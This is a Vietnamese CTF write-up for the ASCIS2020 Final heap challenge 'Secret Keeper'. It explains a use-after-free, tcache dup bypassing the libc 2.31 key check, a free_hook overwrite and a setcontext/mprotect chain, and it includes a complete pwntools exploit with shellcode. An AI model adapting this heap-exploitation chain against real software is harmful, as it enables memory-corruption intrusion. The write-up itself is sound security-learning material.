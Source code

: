 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "[ASCIS2020 Final] Secret Keeper"
subtitle: ""
summary: "Short writeup for a pwn challenge in ASCIS2020 Final"
authors: [pickaxe]
tags: []
categories: []
date: 2020-12-03T21:27:00+07:00
lastmod: 2020-12-03T21:27:00+07:00
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal points: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight.
image:
  caption: ""
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```


### Tổng quan
Đây là một heap challenge, với seccomp chỉ cho phép các syscall open, read, write, mprotect, ... không cho phép các syscall exec*
```
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x0c 0xc000003e  if (A != ARCH_X86_64) goto 0014
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
0004: 0x15 0x00 0x09 0xffffffff  if (A != 0xffffffff) goto 0014
0005: 0x15 0x07 0x00 0x00000000  if (A == read) goto 0013
0006: 0x15 0x06 0x00 0x00000001  if (A == write) goto 0013
0007: 0x15 0x05 0x00 0x00000002  if (A == open) goto 0013
0008: 0x15 0x04 0x00 0x00000003  if (A == close) goto 0013
0009: 0x15 0x03 0x00 0x0000000a  if (A == mprotect) goto 0013
0010: 0x15 0x02 0x00 0x0000000e  if (A == rt_sigprocmask) goto 0013
0011: 0x15 0x01 0x00 0x00000027  if (A == getpid) goto 0013
0012: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0014
0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
0014: 0x06 0x00 0x00 0x00000000  return KILL
```

Ban đầu, thực sự là mình khá ngại làm câu này, @midas hỗ trợ mình trong việc RE câu này. Trong lúc thi thì mình phát hiện ra lỗi Use-after-free ở tính năng encode và decode của chương trình
```c
(secret_to_encode->encoder)(secret_to_encode->buf, *&secret_to_encode->size, &dest_buf, &dest_size);
printf("Encode data: %s\n", dest_buf);
// dest_buf trỏ tới cùng buffer với secret_to_encode->buf
free(secret_to_encode->buf);
secret_to_encode->buf = dest_buf;
```

### Khai thác
Dùng lỗi ở trên, mình có thể dễ dàng leak được địa chỉ của heap và libc
```python
create_secret("AAAA\n", 0x10, "BBBBB\n")
encode_secret(1)
list_secret(1)
r.recvuntil("Your secret:\n")
heap = r.recvuntil("00 00").replace(" ", "")
heap = u64(heap.decode('hex')) - 0x2670
log.info("heap: %s" % hex(heap))

create_secret("AAAA\n", 0x600, "BBBBB\n", True)
create_secret("AAAA\n", 0x600, "BBBBB\n", True)
encode_secret(2)
list_secret(2)
r.recvuntil("Your secret:\n")
base_libc = r.recvuntil("00 00").replace(" ", "")
base_libc = u64(base_libc.decode('hex')) - 0x1ebbe0
```
Do không hiểu rõ tính năng edit nên mình quyết định sử dùng lỗi UAF này để gây ra tcache dup. Libc 2.31 có kiểm tra tcache dup thông qua `key` trong tcache chunk, tuy nhiên do tính năng encode thay đổi toàn bộ buffer nên overwrite luôn cả `key` nên mình có thể bypass cái check đó. Dùng tcache dup mình có thể overwrite `free_hook` từ đó kiểm soát được `rip`.
Tới đây, mình sử dụng gadget này trong libc
```
gadget = libc + 0x154930
mov     rdx, [rdi+8]
mov     [rsp], rax
call    qword ptr [rdx+0x20]
```
Do overwrite `free_hook` nên mình có thể kiểm soát `rdi` (tham số thứ nhất của hàm free), từ đó mình kiểm soát được `rdx` và tiếp tục kiểm soát được `rip`. Trỏ `rip` tới gadget trong `setcontext`
```
base_libc + 0x580DD
mov     rsp, [rdx+0A0h]
mov     rbx, [rdx+80h]
mov     rbp, [rdx+78h]
mov     r12, [rdx+48h]
mov     r13, [rdx+50h]
mov     r14, [rdx+58h]
mov     r15, [rdx+60h]
test    dword ptr fs:48h, 2
jz      loc_581C6

loc_581C6:
mov     rcx, [rdx+0A8h]
push    rcx
mov     rsi, [rdx+70h]
mov     rdi, [rdx+68h]
mov     rcx, [rdx+98h]
mov     r8, [rdx+28h]
mov     r9, [rdx+30h]
mov     rdx, [rdx+88h]
xor     eax, eax
retn
```
Tới đây, do kiểm soát `rdx` nên mình có thể kiểm soát rất nhiều thanh ghi khác trong đó có cả `rsp` rất thuận tiện cho việc ROP. Gọi `mprotect` để giúp heap có thêm quyền execute sau đó nhảy tới shellcode open read write để đặt trên heap là mình có được flag.

Full exploit
```python
from pwn import *

def create_secret(name, size, payload, reuse=False):
    r.sendlineafter(">> ", "1")
    if reuse:
        r.sendline("0")
    r.sendafter("Name: ", name)
    r.sendlineafter("size:", str(size))
    r.send(payload)
    r.sendlineafter("3. None\n", "1")

def encode_secret(index):
    r.sendlineafter(">> ", "5")
    r.sendlineafter(">> ", str(index))

def list_secret(index):
    r.sendlineafter(">> ", "3")
    r.sendlineafter(">> ", str(index))

def delete_secret(index):
        r.sendlineafter(">> ", "4")
        r.sendlineafter(">> ", str(index))

if (sys.argv[1] == "local"):
    r = process("./secret_keeper")
else:
    r = remote("35.240.209.133", 1337)

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
free_hook_off = libc.symbols["__free_hook"]
mprotect_off = libc.symbols["mprotect"]

create_secret("AAAA\n", 0x10, "BBBBB\n")
encode_secret(1)
list_secret(1)
r.recvuntil("Your secret:\n")
heap = r.recvuntil("00 00").replace(" ", "")
#print heap
heap = u64(heap.decode('hex')) - 0x2670
log.info("heap: %s" % hex(heap))

#pause()
create_secret("AAAA\n", 0x600, "BBBBB\n", True)
create_secret("AAAA\n", 0x600, "BBBBB\n", True)
encode_secret(2)
list_secret(2)

r.recvuntil("Your secret:\n")
base_libc = r.recvuntil("00 00").replace(" ", "")
base_libc = u64(base_libc.decode('hex')) - 0x1ebbe0
log.info("base_libc: %s" % hex(base_libc))
free_hook = base_libc + free_hook_off
log.info("free_hook: %s" % hex(free_hook))
mprotect = base_libc + mprotect_off

create_secret("TTTT\n", 0x100, "BBBBB\n", True)
create_secret("TTTT\n", 0x100, "BBBBB\n", True)
encode_secret(4)
encode_secret(5)

create_secret("AAAA\n", 0x100, "BBBBB\n", True)

encode_secret(6)
encode_secret(6)

gadget = base_libc + 0x154930
setcontext = base_libc + 0x580DD

create_secret("CCCC\n", 0x100, p64(free_hook) + "\n", True)
payload = "A"*8 + p64(heap+0x1fb0) + "B"*0x10 + p64(setcontext)

payload += "A"*0x40 + p64(heap-0x40) + p64(0xf000)
payload += "A"*0x10 + p64(7) + "A"*0x10 + p64(heap+0x3150) + p64(mprotect)

create_secret("DDDD\n", 0x100, payload + "\n", True)
create_secret("CCCC\n", 0x100, p64(gadget) + "\n", True)

context.arch = "amd64"
shellcode = shellcraft.open("/opt/flag/flag.txt", 0, 0)
shellcode += shellcraft.read("rax", "rsp", 100)
shellcode += shellcraft.write(1, "rsp", 100)
shellcode = asm(shellcode)

payload = p64(heap + 0x3150 + 0x8) + shellcode
create_secret("MMMM\n", 0x100, payload + "\n", True)

#pause()
delete_secret(8)

r.interactive()

```

Mình thực sự rất vui vì đã giải được câu này trong thời gian cuộc thi.

Cảm ơn anh @Peter vì những heap challenge rất hay, cảm ơn BTC vì một kỳ thi thú vị.

Cảm ơn anh @Biên, writeup của anh về bài ở vòng loại đã giúp em rất nhiều trong quá trình làm bài này.
